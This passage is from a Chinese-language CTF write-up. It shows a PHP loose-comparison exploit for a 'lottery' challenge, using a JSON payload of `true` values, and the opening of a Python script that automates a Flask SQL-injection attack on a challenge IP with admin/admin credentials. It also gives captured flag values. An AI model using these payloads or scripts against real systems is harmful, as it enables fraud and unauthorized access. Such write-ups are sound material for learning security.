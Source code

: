 flag:SCTF{C46E250926A2DFFD831975396222B08E}

### lottery

题目直接给了源代码。

先快乐玩一玩,追踪购买flag和猜数字请求网页和参数。

刚开始看到随机数以为是随机数的安全问题,后来发现这根本并不是2333.继续追踪发现关键代码

```php
$numbers = $req['numbers'];
	$win_numbers = random_win_nums();
	$same_count = 0;
	for($i=0; $i<7; $i++){
		if($numbers[$i] == $win_numbers[$i]){
			$same_count++;
		}
	}
```



php的弱类型的锅23333

发包`{"action":"buy","numbers":[true,true,true,true,true,true,true]}`

疯狂拿钱买flag,我也是能买几十个flag的人:)

cyberpeace{ba2ccbc6417d6539628d0042027b6848}

### Web_python_flask_sql_injection

```python
import requests
from bs4 import BeautifulSoup
#'+hex('a'),"1","2019-09-30")#
def get_csrf_token(text,csrf_name="csrf_token"):
    bs=BeautifulSoup(text, 'html.parser')
    return bs.find("input",attrs={"name":csrf_name})['value']
session=requests.session()
def login(session):
    login_url="http://111.198.29.45:48771/login"
    res=session.get(login_url)
    token=get_csrf_token(res.text)
    #csrf_token=a&username=sdfas&password=asdfasd&submit=Sign+In
    data={
        "csrf_token":token,
        "username":"admin",
        "password":"admin",
        "submit":"Sign+In"
    }
    result=session.post(login_url,data=data).text
def post(session,post_data):
    #csrf_token=ImRmOTMwZDZiNTZjYTMwYTM1MDZhNjYwN2RhN2ExYzBlOTRmMjY5MzMi.XZIYpg.7txloilGax4es41Cq3B-3V4l-TM&post=asdfasdf&submit=Submit
    post_url="http://111.198.29.45:48771/index"
    res=session.get(post_url)
    token=get_csrf_token(res.text)
    data={
        "csrf_token":token,
        "post":post_data,
        "submit":"Submit"
    }
    result=session.post(post_url,data=data).text
    bs=BeautifulSoup(result, 'html.parser')
    if "Your post is now live!" in result:
        r=bs.find_all("table",class_="table table-hover")[0].find_all("td")[-1].text
```